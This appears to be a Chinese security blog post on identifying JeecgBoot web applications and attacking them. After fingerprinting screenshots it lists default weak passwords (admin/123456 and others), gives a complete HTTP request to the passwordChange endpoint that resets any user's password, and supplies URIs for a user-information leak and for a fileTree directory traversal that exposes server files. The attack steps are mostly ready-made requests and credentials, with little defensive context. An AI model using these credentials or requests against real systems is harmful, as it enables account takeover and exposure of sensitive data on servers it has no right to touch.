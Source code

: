 icon_hash="-250963920"  
  
  
![1751074165_685f457555c409dcd6741.png!small?1751074165285](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHwAicicuNQPdQwOOM3JSOCWT5RaU8lYrxe97JUshLaYX9p2EGIvOvib7tg/640?wx_fmt=jpeg&from=appmsg "")  
## 常见情况  
  
加载动画  
  
![1751074465_685f46a153dfa564857d2.png!small?1751074465213](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHEXmVyFAyL5fRelxvVxboRfJblJvV3tbTD6zNPX29onAuHalDK4nkSg/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074352_685f463098ada0ee7f739.png!small?1751074352654](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHMJphMDtkBf2AyibNoMaWzpkMdibKMe87lgMyjsvaWWlXcUibricWFxiapXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074496_685f46c03fc59e5f87987.png!small?1751074496168](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHxf9E7JmIYBicR2HlxjPhvjpfwaJicHDohYZSThr2VppjHlAbPG8icF21w/640?wx_fmt=jpeg&from=appmsg "")  
  
出现一下这几种情况基本可以确定是jeecg-boot,也可以通过接口或者图标等信息进行判定。  
## 常见弱口令漏洞  
> admin/123456  
> jeecg/123456  
> admn/admin  
> test/test  
> demo/test  
> jeecg/jeecg123456  
> guest/guest  
  
  
![1751076190_685f4d5e730f2eaae1882.png!small?1751076190863](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHqu5Hbf7YlQoIdlanS1T4iaYdSRibb1qEJ4ho2XmaPQvo7Cic6fPRBwhoQ/640?wx_fmt=jpeg&from=appmsg "")  
## JeecgBoot passwordChange接口任意用户密码重置  
  
GET /jeecg-boot/sys/user/passwordChange?username=admin&password=admin&smscode=&phone= HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0  
  
Accept: */*  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Connection: keep-alive  
## jeecg-boot-checkOnlyUser信息泄露漏洞  
> /jeecg-boot/sys/user/querySysUser?username=admin  
>   
> Jeecg-Boot 2.4.5及之前版本存在不安全权限漏洞。攻击者可利用该漏洞通过uri:/sys/user/checkOnlyUser?username=admin提升权限并查看敏感信息。  
  
## jeecg-boot-目录遍历漏洞  
> /jeecg-boot/online/cgform/head/fileTree?_t=1632524014&parentPath=/  
>   
> 低权限账号访问直接返回服务器文件目录信息  
  